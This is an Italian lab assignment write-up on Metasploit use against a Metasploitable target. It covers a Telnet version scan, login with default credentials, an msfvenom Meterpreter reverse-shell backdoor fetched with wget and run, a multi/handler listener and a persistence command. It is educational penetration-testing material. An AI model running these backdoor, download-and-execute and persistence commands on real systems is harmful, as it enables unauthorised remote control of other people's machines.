 # Consegna S7/L2 | Hacking con Metasploit

## 🎯 Obiettivo
L'obiettivo di questa esercitazione è stato esplorare e applicare tecniche di **ethical hacking** utilizzando **Metasploit Framework** per:
1. Identificare e analizzare il servizio **Telnet** tramite il modulo `telnet_version`.
2. Creare una **backdoor personalizzata** con **msfvenom**, compatibile con l'architettura a 32-bit, e trasferirla sul target per ottenere una sessione shell e, opzionalmente, renderla **persistente**.

Questa relazione è scritta in modo chiaro e scorrevole, con l'obiettivo di essere comprensibile anche per chi non ha familiarità con questi strumenti. 🚀

---

## 1. Analisi del servizio Telnet con Metasploit
### 🛠️ Strumenti utilizzati
- **Metasploit Framework (msf6)**
- **Kali Linux**
- **Metasploitable** (target)
- **Nmap** per la scansione delle porte

### 📋 Procedura
1. **Scansione delle porte aperte**: 
   Utilizzando **Nmap**, abbiamo individuato che il servizio **Telnet** è attivo sulla porta **23** del target:
   ```bash
   nmap -p 23 192.168.50.3
   ```
   Questo passaggio è fondamentale per identificare servizi potenzialmente vulnerabili.

2. **Identificazione della versione Telnet**:
   Abbiamo utilizzato il modulo **auxiliary/scanner/telnet/telnet_version** di Metasploit per identificare la versione del servizio Telnet esposto:
   
   ```bash
   msfconsole
   use auxiliary/scanner/telnet/telnet_version
   set RHOSTS 192.168.50.3
   run
   ```
   Questo modulo ci ha fornito informazioni dettagliate sulla versione del servizio Telnet, permettendoci di pianificare eventuali attacchi successivi.

3. **Accesso alla shell Telnet**:
   Utilizzando le credenziali di default del servizio Metasploitable (ad esempio `msfadmin:msfadmin`), abbiamo ottenuto una **shell interattiva** sul target.

---

## 2. Creazione e utilizzo della backdoor
### 🧰 Strumenti utilizzati
- **msfvenom**: Generazione del payload
- **Metasploit Framework**: Configurazione del listener
- **Python HTTP Server**: Trasferimento del file
- **wget**: Download sul target

### 🚀 Creazione della backdoor
Abbiamo scelto di utilizzare **msfvenom** per creare un payload **reverse shell**. La scelta è ricaduta su **linux/x86/meterpreter_reverse_tcp** per i seguenti motivi:
1. **Compatibilità**: Metasploitable gira su architettura a **32-bit** (x86), rendendo necessario generare un payload adatto.
2. **Meterpreter**: Consente un controllo avanzato della macchina target, offrendo più funzionalità rispetto a una semplice shell interattiva.

Il comando utilizzato per generare la backdoor è stato:
```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.50.2 LPORT=4444 -f elf -o backdoor_ftp.elf
```
- **`-p`**: Payload per Linux con connessione inversa.
- **`LHOST` e `LPORT`**: Indirizzo IP e porta per ricevere la connessione.
- **`-f elf`**: Formato ELF per sistemi Linux.
- **`-o`**: Nome del file di output.

### 📤 Trasferimento della backdoor
Per trasferire il file sul target, abbiamo usato un server HTTP semplice su Kali e **wget** su Metasploitable:

1. **Avvio del server HTTP su Kali**:
   ```bash
   python3 -m http.server 8080
   ```
2. **Download del file sul target**:
   ```bash
   cd /tmp
   wget http://192.168.50.2:8080/backdoor_ftp.elf
   ```

### 🔑 Esecuzione della backdoor
Dopo aver trasferito la backdoor sul target, abbiamo eseguito i seguenti passaggi:
1. **Permessi di esecuzione**:
   ```bash
   chmod +x backdoor_ftp.elf
   ```
2. **Avvio della backdoor**:
   ```bash
   ./backdoor_ftp.elf
   ```

### 📡 Configurazione del listener su Metasploit
Per ricevere la connessione inversa generata dalla backdoor, abbiamo configurato il listener con **multi/handler**:
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter_reverse_tcp
set LHOST 192.168.50.2
set LPORT 4444
exploit
```

### 🎉 Risultato: Sessione Meterpreter
La backdoor ha stabilito con successo una connessione con la nostra macchina Kali, fornendoci una **sessione Meterpreter**. Da qui, abbiamo potuto:
- Navigare nel filesystem (`ls`, `cd`)
- Caricare e scaricare file (`upload`, `download`)
- Ottenere informazioni dettagliate sul sistema (`sysinfo`)
- Eseguire comandi avanzati direttamente sul target

### 🔒 Persistenza (facoltativa)
Per rendere la backdoor persistente sul target, abbiamo utilizzato il modulo **persistence** di Meterpreter:
```bash
run persistence -X -i 5 -p 4444 -r 192.168.50.2
```
- **`-X`**: Installa come servizio di sistema.
- **`-i`**: Intervallo di riconnessione (ogni 5 secondi).
- **`LPORT` e `LHOST`**: Configurazione del listener.

---

## 🏁 Conclusione
Questa esercitazione ha dimostrato come:
1. Identificare la versione di un servizio vulnerabile utilizzando **Metasploit**.
2. Creare una **backdoor personalizzata** compatibile con l'architettura della macchina target.
3. Stabilire una **sessione Meterpreter** per eseguire operazioni avanzate di post-exploitation.

La simulazione è un esempio concreto di **analisi, sfruttamento e consolidamento** dell'accesso a un sistema compromesso, evidenziando l'importanza di proteggere i servizi esposti. 

---

## 👨‍💻 Autore
**Sebastiano | Consegna S7/L2**

---

## ⚠️ Note
Questo documento è a scopo puramente educativo e dimostrativo per la sicurezza informatica. Ogni utilizzo improprio è severamente vietato. 🚨
